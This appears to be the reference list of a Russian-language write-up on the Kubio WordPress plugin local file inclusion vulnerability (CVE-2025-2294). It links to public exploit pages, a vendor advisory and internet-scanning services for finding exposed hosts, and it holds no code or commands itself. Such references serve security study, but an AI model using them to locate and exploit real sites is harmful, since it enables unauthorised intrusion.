- https://www.exploit-db.com/exploits/52125
- https://github.com/Nxploited/CVE-2025-2294
- https://www.hostinger.com/tutorials/run-docker-wordpress?utm_campaign=Generic-Tutorials-DSA%7CNT:Se%7CLang:EN%7CLO:PL&utm_medium=ppc&gad_source=1&gad_campaignid=20920937993&gclid=Cj0KCQjwrc7GBhCfARIsAHGcW5VR7CIa8UZKIA7b7YfL2LsKmHxKAoi4t0d7D_OJRaxF3NyT8doUh4saAkjL
- https://ru.wordpress.org/plugins/kubio/
- https://kubiobuilder.com/
- https://kubiobuilder.com/documentation/how-kubio-works/
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/kubio/kubio-ai-page-builder-251-unauthenticated-local-file-inclusion
- https://x.com/zoomeye_team/status/1857341481679487470?lang=ar
- https://www.rapid7.com/db/modules/auxiliary/gather/zoomeye_search/
- https://github.com/projectdiscovery/httpx?tab=readme-ov-file
- https://docs.projectdiscovery.io/opensource/httpx/running
- https://www.zoomeye.ai/
- https://chatgpt.com/
- https://en.fofa.info/
- https://www.criminalip.io/


#### Был написан Миркасимовым Ильназом(@mirmeweu). Даты написания: 23.09.25-25.09.25

